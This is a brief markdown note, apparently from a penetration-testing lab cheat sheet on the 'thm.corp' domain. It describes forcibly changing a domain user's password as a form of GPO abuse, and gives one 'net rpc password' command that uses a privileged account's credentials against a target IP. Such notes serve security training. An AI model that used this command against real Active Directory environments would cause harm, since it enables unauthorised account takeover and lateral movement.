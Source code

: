 ## Force_Change_Password 
- One of the GPO abuse
```
net rpc password "$username_of_forced" "$desired_password" -u "thm.corp"/"$privileged_username"%"$password" -S "$IP"           
```
